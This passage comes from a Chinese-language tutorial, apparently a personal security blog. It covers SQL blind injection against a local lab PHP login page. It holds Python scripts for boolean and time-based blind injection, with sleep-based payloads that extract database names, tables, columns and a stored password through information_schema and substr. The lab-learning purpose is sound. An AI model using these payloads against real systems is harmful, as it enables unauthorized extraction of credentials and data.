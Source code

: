 ```python
            i += 1
            # 测试left
            flag += s
            # 测试right
            # flag = s + flag
            print(f"[#]------{flag}")
            break
        elif (end-start)>3:
            print("尽力啦尽力啦")
            exit()
```

::: warning 疑惑
尝试用`regexp`替换like，当前数据库名`testdb`，用`regexp`匹配`testdb`，匹配有问题？
:::

![4](https://the0n3.top/medias/sql-blind/4.png)

![5](https://the0n3.top/medias/sql-blind/5.png)

select语句的sql盲注好像很依赖`select`，select过滤掉就退役了？

## 时间盲注

还用这个php，不再关注回显信息，通过页面的是否存在缓慢的加载，判断sleep函数是否执行，确认substr函数的是否爆破成功

![6](https://the0n3.top/medias/sql-blind/6.png)


脚本没有大的变化，关键在`if(条件,sleep(t),0)`语句，判断调试是否为真，如果为真，则执行sleep函数，页面加载缓慢，如果为假，则不执行sleep函数，确认爆破结果，条件可以放入substr,mid等函数的子查询`substr((子查询),i,1)='s'`

```python
import requests
import time
import string

# 下划线放最后，避免当作统配符吃掉特殊字符
flags = 'abcdefghijklmnopqrstuvwxyz0123456789,-{}_'
flag = ""

url = "http://192.168.237.133/sql.php"
i = 1
while True:
    for s in flags:
        
        data = {
        # 爆库
        # "username":f"99'or if((substr((select group_concat(schema_name) from information_schema.schemata),{i},1) ='{s}'),sleep(0.5),0)#",
        # 爆表
        # "username":f"99'or if((substr((select group_concat(table_name) from information_schema.tables where table_schema =database()),{i},1)='{s}'),sleep(0.5),0)#",
        # 爆字段
        # "username":f"99'or if((substr((select group_concat(column_name) from information_schema.columns where table_schema=database()),{i},1) ='{s}'),sleep(0.5),0)#",
        # 爆数据
        "username":f"99'or if((substr((select password from user where username ='flag'),{i},1) ='{s}'),sleep(0.5),0)#",
        # 爆数据
        "password":'1'
        }
        start = time.time()
        resp = requests.post(url,data=data)
        end = time.time()
```